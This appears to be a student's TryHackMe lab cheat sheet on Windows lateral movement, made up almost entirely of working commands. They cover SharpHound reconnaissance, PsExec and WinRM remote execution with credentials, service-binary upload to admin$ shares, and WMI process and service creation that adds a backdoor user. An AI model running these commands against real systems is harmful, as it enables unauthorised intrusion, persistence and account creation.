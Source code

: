 # Sharphound
`.\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs
` *Collect all but do not touch domain controllers- Theoretically evasive*
`neo4j console` Start neo4j
`bloodhound`

# PSexec (remote command exec)
    Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
    Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with C:\Windows\psexesvc.exe.
    Create some named pipes to handle stdin/stdout/stderr.

`psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe`

### Common code for the above tecniques
`$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`

`smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever` *Upload what you want to execute on the shares (depends on the method you choose)*

# WinRM remote exec(required: Remote Management Users group- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS))
`winrs.exe -u:Administrator -p:Mypass123 -r:target cmd` *One way*
`Enter-PSSession -Computername TARGET -Credential $credential
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`

# WMI remote powershell through DCOM (port 135/TCP and ports 49152-65535/TCP)
`$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop`

# WMI remote Process Creating
`$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}`

# WMI remote services
`Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete`
